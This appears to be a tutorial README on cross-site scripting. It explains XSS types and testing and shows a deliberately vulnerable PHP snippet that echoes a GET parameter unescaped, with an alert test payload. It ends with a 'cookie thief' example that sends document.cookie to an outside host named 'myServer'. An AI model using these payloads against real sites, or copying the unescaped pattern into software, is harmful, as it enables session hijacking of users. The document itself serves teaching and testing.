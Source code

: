 # XSS (c'est du balaise!! ^_^ Lol)

## Champ lexical

* [JavaScript]()
* [Session Cookies]()
* [Web Client]()
* [Web Server]()
* [XMLHttpRequest]()
* [WAF]()
* [Proxy]()
* [SOP]()
* [HTML]()
* [DOM]()

## Nomenclature 
### XSS stands for:
Cross Site Scripting
### Exploitability
Easy / Medium / Difficult according to the context
### Impact : 
Several: `disfigurements, theft of cookie, unauthorized files access, DoS` 
# Cross Site Scripting 
-----
## Overview 
The XSS attack is an attack realized when data submit from end user is `interpretted by a browser`.
It is classified among `injection attacks`.  Early on, it was categorized as **three** kinds, `stored`, `DOM based` and `reflected`. 
* These three types were defined as follows :

  * __Stored XSS__: generally occurs when server stocks submitted data from one user and then this data could be seen by others users : in a message log, in user log, in user credentials, in message form, in user cv.

  * __Reflected XSS__ : when the user supplied data is automatically replied to the same user without escapping from the server. 

  * __DOM based XSS__ : when the user input is not sent to the server but is used to automatically update its `DOM`.

* This classification was quickly deprecated. To clarify it, the research community proposed two new terms to help organize the types of XSS that can occur :
  * **Server XSS**
  * **Client XSS**

### Server XSS 
---
Server XSS occurs when untrusted data from user is replied with server generated HTML. In this case, the entire vulnerability is in **server-side code**, and the browser is simply rendering the response and executing any valid script embedded within it.

### Client XSS
----
Client XSS occurs when `untrusted data` is used to update the `DOM` with an unsafe call of **client-side script**. 

## How to test for XSS 
* `Graybox` test is the best way to test for XSS. Each HTTP data input and printed after could possibly be an XSS attack vector if the input is not escapped. 
For example this code is vulnerable.
```
    <?php
    echo 'Hello <h1>' .$_GET["name"]. '!</h1>';
    ?>
```
If the value of name is ```</h1><script>alert('xss');</script><h1>``` the browser will get the following answer from the server 
```
    <h1>!</h1>
    <script>alert('xss');</script>
    <h1></h1>
```	


* The best way to perform `black blackbox` XSS test in server is to use a `proxy`, `dirbust` the website and `analyze` all submitted data to the server and inject some HTML characters and analyse the server responses.
From all the website submits, test with HTML chars (html entities), and look the render in browser. If it is not well escaped (the result is not HTML special character), probably the website is XSS vulnerable. 
---
## Examples     
### Example 1 : cookie thief 
```
    <img src="nonExistImg" onerror="myFunction()"/>
    <script>function myFunction(){
	window.location = "http://myServer/?cookie".concat("=", document.cookie);
    </script>
```
